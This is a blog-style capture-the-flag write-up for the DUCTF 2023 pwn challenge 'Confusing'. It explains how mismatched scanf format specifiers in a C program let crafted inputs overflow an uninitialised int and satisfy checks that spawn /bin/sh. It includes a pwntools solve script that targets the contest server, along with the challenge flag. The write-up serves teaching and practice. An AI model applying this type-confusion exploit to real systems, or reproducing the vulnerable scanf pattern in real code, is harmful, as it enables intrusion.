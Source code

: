 ```yaml
---
title: Writeup - Confusing (DUCTF 2023)
date: 2023-09-04 00:00:00
tags: 
- writeup
- pwn
- ductf2023
---
```


# DUCTF 2023 - Confusing
## Description
```markdown
Types can be very confusing.

Author: joseph

`nc 2023.ductf.dev 30024`

[confusing] [confusing.c]
```

## Writeup
Okay, this challenge was aptly named. The worst part about it wasn't matching inputs to types, it was figuring out how the heck floats work in C (you don't want to know). But let's dive right in ([file 1](/static/ductf-confusing/confusing), [file 2](/static/ductf-confusing/confusing.c)). 

```c
int main() {
    init(); // not important

    short d;
    double f;
    char s[4];
    int z; 

    printf("Give me d: ");
    scanf("%lf", &d);

    printf("Give me s: ");
    scanf("%d", &s);

    printf("Give me f: ");
    scanf("%8s", &f);

    if(z == -1 && d == 13337 && f == 1.6180339887 && strncmp(s, "FLAG", 4) == 0) {
        system("/bin/sh");
    } else {
        puts("Still confused?");
    }
}
```

There are 4 stages to pop a shell, and each involves setting a different variable correctly. The type each variable is initialized as is different than what form our input comes in.

### d
The `d` variable is initialized as a signed short, which is just 2 bytes (16 bits) of data. The input is a long float, or double-precision floating point number, and the output needs to equal `13337` (`0x3419`). The fact that the input is a **double-precision** float instead of single-precision is important, as it changes how the number is stored. Floats are stored in a really funky way, with the 1st bit being positive/negative, the 2nd-9th bits being the exponent, and remaining bits being the mantissa. The number is then calculated as `sign * 2**exponent * mantissa`. This whole conversion process sucks, so I found a [site online to convert](https://gregstoll.com/~gregstoll/floattohex/) the values between doubles and hex. 

Since only 2 bytes of data can be stored but the `printf` statement takes in 8 bytes, the input will be truncated to only 2 bytes. This means that we only care about the last 4 hex digits in the input, which need to equal `0x3419`. We chose to use the complete hex value `0x3fc7ffffffff3419`, where you can see the last 4 digits are `13337` (the rest we'll explain later). The converter turns this into the double `0.1874999999985512`. 

### z
Before we get to the other 2 inputs, it's important to note that there is no input for `z`, nor is it initialized to any value. How can we set it to our desired value? Well, even though the order of initializations in the source file is `d, f, s, z`, the `z` variable is actually placed right after the `d` variable. Remember how the input took 8 bytes (for a double-precision float), but the `d` variable can only store 2? Well, that means there's 6 bytes of overflow that JUST HAPPEN to overflow the `z` variable :) 

This means that out of the 8 bytes, the first 2 don't matter, the middle 4 are `z`, and the last 2 are `d`. This why we chose `0x3fc7ffffffff3419`, since the middle 4 bytes are `0xffffffff`, which is the signed integer value for -1. 

### s
Next we have `s`; this is initialized as 4 chars which must equal `FLAG`, and the input is a signed integer (also 4 bytes). This works out pretty nicely since the input is the same size as the storage. The characters `FLAG` are stored as hexadecimal `0x47414c46` (backwards), which is represented as `1195461702` as a decimal number. 

### f
The last variable is `f`, stored as an 8-byte double-precision float that must equal `1.6180339887`, but the input is 8 characters. Using the same converter from the `s` variable, we found the hex value for `1.6180339887` is `0x3ff9e3779b9486e5`. Since many of these are non-printable characters, I converted my solution into a `pwntools` Python script that would do the inputs for me. 

### Solve
[Solve script](/static/ductf-confusing/solve.py):

```python
from pwn import *


# initialize the binary
binary = "./confusing"
elf = context.binary = ELF(binary, checksec=False)

gs = """
break main
continue
"""

if args.REMOTE:
    p = remote("2023.ductf.dev", 30024)
elif args.GDB:
    p = gdb.debug(binary, gdbscript=gs)
else:
    p = elf.process()

# first 
p.sendline(b'0.1874999999985512')

# second
p.sendline(b'1195461702')

# third
p.sendline(p64(0x3ff9e3779b9486e5)) # 0x3ff9e3779b9486e5

p.interactive()
```

<img src="/static/ductf-confusing/conf_solve.png" width="600px">

**Flag**: `DUCTF{typ3_c0nfus1on_c4n_b3_c0nfus1ng!}`